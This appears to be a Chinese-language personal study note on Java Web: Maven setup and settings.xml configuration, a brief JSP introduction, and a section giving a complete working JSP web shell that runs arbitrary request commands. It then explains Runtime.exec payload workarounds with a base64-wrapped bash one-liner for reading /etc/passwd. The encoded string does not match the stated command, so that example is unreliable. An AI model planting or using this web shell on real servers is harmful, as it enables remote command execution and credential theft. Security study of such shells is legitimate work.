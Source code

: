 # Java Web

- [Java Web](#java-web)
  - [Maven](#maven)
    - [下载与配置](#下载与配置)
  - [JSP](#jsp)
    - [JSP 马](#jsp-马)


---

## Maven

> [Maven配置教程_霍英俊-CSDN博客_maven配置](https://blog.csdn.net/huo920/article/details/82082403)

### 下载与配置

在 [Maven – Download Apache Maven](https://maven.apache.org/download.cgi) 下载

<img src="http://cdn.ayusummer233.top/img/202201011531250.png" alt="image-20220101153104101" style="zoom: 80%;" />

解压到某个文件夹

![image-20220101153336808](http://cdn.ayusummer233.top/img/202201011533908.png)

配置 Maven 环境变量

![image-20220101153540046](http://cdn.ayusummer233.top/img/202201011535134.png)

编辑 PATH 变量

![image-20220101153734649](http://cdn.ayusummer233.top/img/202201011537762.png)

验证配置: `mvn -v`

<img src="http://cdn.ayusummer233.top/img/202201011543915.png" alt="image-20220101154317795" style="zoom:80%;" />

修改 Maven 配置 `C:\Programming\Java\apache-maven-3.8.4\conf\settings.xml`

修改本地仓库位置:

![image-20220101154858114](http://cdn.ayusummer233.top/img/202201011548230.png)

修改 maven 默认的 JDK 版本

![image-20220101155951312](http://cdn.ayusummer233.top/img/202201011559443.png)

```xml
    <profile>     
        <id>JDK-1.8</id>       
        <activation>       
            <activeByDefault>true</activeByDefault>       
            <jdk>1.8</jdk>       
        </activation>       
        <properties>       
            <maven.compiler.source>1.8</maven.compiler.source>       
            <maven.compiler.target>1.8</maven.compiler.target>       
            <maven.compiler.compilerVersion>1.8</maven.compiler.compilerVersion>       
        </properties>       
    </profile>
```

添加国内镜像源

```xml
<!-- 阿里云仓库 -->
<mirror>
    <id>alimaven</id>
    <mirrorOf>central</mirrorOf>
    <name>aliyun maven</name>
    <url>http://maven.aliyun.com/nexus/content/repositories/central/</url>
</mirror>

<!-- 中央仓库1 -->
<mirror>
    <id>repo1</id>
    <mirrorOf>central</mirrorOf>
    <name>Human Readable Name for this Mirror.</name>
    <url>http://repo1.maven.org/maven2/</url>
</mirror>

<!-- 中央仓库2 -->
<mirror>
    <id>repo2</id>
    <mirrorOf>central</mirrorOf>
    <name>Human Readable Name for this Mirror.</name>
    <url>http://repo2.maven.org/maven2/</url>
</mirror>

```

![image-20220101160226738](http://cdn.ayusummer233.top/img/202201011602870.png)


----

## JSP

JSP(Java Server Pages)是一种动态网页开发技术。它使用JSP标签在HTML网页中插入Java代码。

JSP是一种Java servlet，主要用于实现Java web应用程序的用户界面部分

---

### JSP 马


```jsp
<%@ page import="java.util.*,java.io.*"%>
<%%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
                p = Runtime.getRuntime().exec(request.getParameter("cmd"));
            }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
%>
</pre>
</BODY></HTML>
```

> [Runtime.getRuntime().exec踩坑总结](https://blog.51cto.com/stefanxfy/4722238)

> [java.lang.Runtime.exec() Payload Workarounds - @Jackson_T (bewhale.github.io)](https://bewhale.github.io/tools/encode.html)

偶尔有时命令执行有效负载`Runtime.getRuntime().exec()`失败. 使用 web shells, 反序列化漏洞或其他向量时可能会发生这种情况.

有时这是因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义. 例如 `ls > dir_listing` 在shell中执行应该将当前目录的列表输出到名为的文件中 `dir_listing`. 但是在 `exec()` 函数的上下文中,该命令将被解释为获取 `>` 和 `dir_listing` 目录.

其他时候,其中包含空格的参数会被StringTokenizer类破坏.该类将空格分割为命令字符串. 那样的东西 `ls "My Directory"` 会被解释为 `ls '"My' 'Directory"'`.

在Base64编码的帮助下, 可以通过调用Bash或PowerShell再次使管道和重定向更好,并且还确保参数中没有空格.

比如将 bash 命令

```bash
cat /etc/passwd
```

转换为: 

```shell
bash -c {echo,Y2F0IC9lcnR0Yy9wYXNzd2Q=}|{base64,-d}|{bash,-i}
```

---




